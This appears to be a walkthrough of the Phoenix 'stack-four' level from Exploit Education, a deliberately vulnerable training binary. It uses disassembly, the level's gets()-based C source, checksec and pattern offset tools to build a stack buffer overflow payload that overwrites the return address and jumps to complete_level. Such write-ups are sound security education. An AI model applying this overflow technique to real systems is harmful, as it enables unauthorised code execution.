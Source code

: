 ```yaml
---
title: "phoenix - stack 4"
classes: wide
tag: 
  - "buffer overflow"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for stack four from Phoenix in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets list the files using ```ls -la```,

```c
user@phoenix-amd64:~$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Jun  6 05:25 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 6096 Jun  6 05:25 stack-four
```

Lets check the file type of the binary using ```file``` command,

```c
user@phoenix-amd64:~$ file stack-four
stack-four: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

It is a ```not stripped``` binary

Now,lets try running it

```c
user@phoenix-amd64:~$ ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
monish
and will be returning to 0x40068d
user@phoenix-amd64:~$ ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
and will be returning to 0x40068d
```

So there is something fishy with ```0x40068d```

Lets use debugger on this binary,

Viewing functions

```c
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000400438  _init
0x0000000000400460  printf@plt
0x0000000000400470  gets@plt
0x0000000000400480  puts@plt
0x0000000000400490  exit@plt
0x00000000004004a0  __libc_start_main@plt
0x00000000004004b0  _start
0x00000000004004c6  _start_c
0x00000000004004f0  deregister_tm_clones
0x0000000000400520  register_tm_clones
0x0000000000400560  __do_global_dtors_aux
0x00000000004005f0  frame_dummy
0x000000000040061d  complete_level
0x0000000000400635  start_level
0x000000000040066a  main
0x00000000004006a0  __do_global_ctors_aux
0x00000000004006e2  _fini
```

It has three distinguishable functions

```c
0x000000000040061d  complete_level
0x0000000000400635  start_level
0x000000000040066a  main
```

Disassembling ```main()```,

```c
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000040066a <+0>:	  push   rbp
   0x000000000040066b <+1>:	  mov    rbp,rsp
   0x000000000040066e <+4>:	  sub    rsp,0x10
   0x0000000000400672 <+8>:	  mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:	mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:	mov    edi,0x400750
   0x000000000040067e <+20>:	call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:	mov    eax,0x0
   0x0000000000400688 <+30>:	call   0x400635 <start_level>
   0x000000000040068d <+35>:	mov    eax,0x0
   0x0000000000400692 <+40>:	leave
   0x0000000000400693 <+41>:	ret
End of assembler dump.
```
```main()``` calls ```start_level()```


Disassembling ```start_level()```,

```c
pwndbg> disassemble start_level
Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:	  push   rbp
   0x0000000000400636 <+1>:	  mov    rbp,rsp
   0x0000000000400639 <+4>:	  sub    rsp,0x50
   0x000000000040063d <+8>:	  lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:	mov    rdi,rax
   0x0000000000400644 <+15>:	call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:	mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040064d <+24>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400651 <+28>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400655 <+32>:	mov    rsi,rax
   0x0000000000400658 <+35>:	mov    edi,0x400733
   0x000000000040065d <+40>:	mov    eax,0x0
   0x0000000000400662 <+45>:	call   0x400460 <printf@plt>
   0x0000000000400667 <+50>:	nop
   0x0000000000400668 <+51>:	leave
   0x0000000000400669 <+52>:	ret
End of assembler dump.
```
```start_level()``` calls ```complete_level()```


Disassembling ```complete_level()```,

```c
pwndbg> disassemble complete_level
Dump of assembler code for function complete_level:
   0x000000000040061d <+0>:	  push   rbp
   0x000000000040061e <+1>:	  mov    rbp,rsp
   0x0000000000400621 <+4>:	  mov    edi,0x4006f0
   0x0000000000400626 <+9>:	  call   0x400480 <puts@plt>
   0x000000000040062b <+14>:	mov    edi,0x0
   0x0000000000400630 <+19>:	call   0x400490 <exit@plt>
End of assembler dump.
```

Lets take a look at source code for proper understanding,

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

The main part of this program is,

```c
void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}
```

Here ```ret = __builtin_return_address(0);``` points the return address of the program when it is being executed in stack

And there is no link between ```start_level()``` and ```complete_level()```

The only way we can call ```complete_level()``` is to point its address into the ```ret```


In ```start_level()```,

```c
   0x000000000040063d <+8>:	lea    rax,[rbp-0x50]
```
This is used to load the buffer space for ```buffer```

```c
0x000000000040064d <+24>:	mov    QWORD PTR [rbp-0x8],rax
```
This is used to store the return address ```ret```

Checking the security mitigations of the binary,

```c
ra@moni~/E/p/stack4> checksec  stack-four
[*] '/home/ra/ExpDevPractice/phoenix/stack4/stack-four'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
    RPATH:    '/opt/phoenix/x86_64-linux-musl/lib'
```

So we can overflow the binary as there are no security mitigations in it

We have to crash the binary by junk data in ```buffer``` and the address of ```complete_level()``` in ```ret```

Lets try crashing it

Creating a random patten for fuzzing,

```c
ra@moni/o/m/e/f/t/exploit> ./pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Passing this random pattern as input in binary would make it crash,

```c
user@phoenix-amd64:~$ python -c "print('Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A')" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x3164413064413963
Segmentation fault
```

So we overwrote our ```ret``` return address as ```0x3164413064413963``` from ```0x40068d```

Lets try to find the offset of our return address ```ret```,

```c
ra@moni/o/m/e/f/t/exploit> ./pattern_offset.rb -q 0x3164413064413963
[*] Exact match at offset 88
```

We came to know that after 88th offset from buffer we can enter into ```ret```

Lets exploit this binary now,

```c
user@phoenix-amd64:~$ python -c "print('A'*88+'BBBB')" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x42424242
Segmentation fault
```

```payload = junk(88bytes) + address of complete_level()```

Address of ```complete_level()``` = ```0x000000000040061d```

```c
user@phoenix-amd64:~$ python -c "print('A'*88+'\x1d\x06\x40')" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

Done! we have completed "stack-four"





